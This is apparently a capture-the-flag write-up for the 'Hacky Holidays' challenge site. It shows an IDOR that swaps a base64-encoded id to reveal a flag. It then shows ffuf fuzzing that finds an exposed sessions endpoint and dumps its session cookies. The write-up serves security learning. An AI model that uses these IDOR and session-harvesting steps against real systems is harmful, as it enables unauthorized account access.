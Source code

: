 
# flag3 /people-rater

The people rater app references entries via something like


	https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6Mn0=

where the id parameter is base64 encoding of  `{"id":NUMBER}`

Setting `NUMBER=1` immediatly gives the flag:

```
GET /people-rater/entry?id=eyJpZCI6MX0%3d HTTP/1.1
Host: hackyholidays.h1ctf.com

{ "id":"eyJpZCI6MX0=",
  "name":"The Grinch",
  "rating":"Amazing in every possible way!",
  "flag":"flag{b705fb11-fb55-442f-847f-0931be82ed9a}"
}
```

# flag4 /swag-shop

The swag shop sells some itmes but in order to make a purchase you need a valid login as shown by this request

```
POST /swag-shop/api/purchase HTTP/1.1
Host: hackyholidays.h1ctf.com

id=1
```

which gives the error:

	{"error":"You are not logged in"}

Fuzzing via ffuf we can find `/swag-shop/api/sessions` which contains some interesting stuff

	{"sessions":["eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0=","eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNMlEyTURJek5EZzVNV0UwTjJNM05ESm1OVEl5TkdNM05XVXhZV1EwTkRSbFpXSTNNVGc0TWpJM1pHUmtNVGxsWlRNMlpEa3hNR1ZsTldFd05tWmlaV0ZrWmpaaE9EZzRNRFkzT0RsbVpHUmhZVE0xWTJJeU1HVmhNakExTmpkaU5ERmpZekJoTVdRNE5EVTFNRGM0TkRFMVltSTVZVEpqT0RCa01qRm1OMlk9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNV1kzTVRBek1UQmpaR1k0WkdNd1lqSTNaamsyWm1Zek1XSmxNV0V5WlRnMVl6RTBNbVpsWmpNd1ltSmpabVE0WlRVMFkyWXhZelZtWlRNMU4yUTFPRFkyWWpGa1ptRmlObUk1WmpJMU0yTTJNRFZpTmpBMFpqRmpORFZrTlRRNE4yVTJPRGRpTlRKbE1tRmlNVEV4T0RBNE1qVTJNemt4WldOaE5qRmtObVU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRE00WXpoaU4yUTNNbVkwWWpVMk0yRmtabUZsTkRNd01USTVNakV5T0RobE5HRmtNbUk1T1RjeU1EbGtOVEpoWlRjNFlqVXhaakl6TjJRNE5tUmpOamcyTm1VMU16VmxPV0V6T1RFNU5XWXlPVGN3Tm1KbFpESXlORGd5TVRBNVpEQTFPVGxpTVRZeU5EY3pOakZrWm1VME1UZ3hZV0V3TURVMVpXTmhOelE9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJPR0kzTjJFeE9HVmpOek0xWldWbU5UazJaak5rWmpJd00yWmpZemRqTVdOaE9EZzRORGhoT0RSbU5qSTBORFJqWlRkbFpUZzBaVFV3TnpabVpEZGtZVEpqTjJJeU9EWTVZamN4Wm1JNVpHUmlZVGd6WmpoaVpEVmlPV1pqTVRWbFpEZ3pNVEJrTnpObU9ESTBPVE01WkRNM1kySmpabVk0TnpFeU9HRTNOVE09In0="]}
	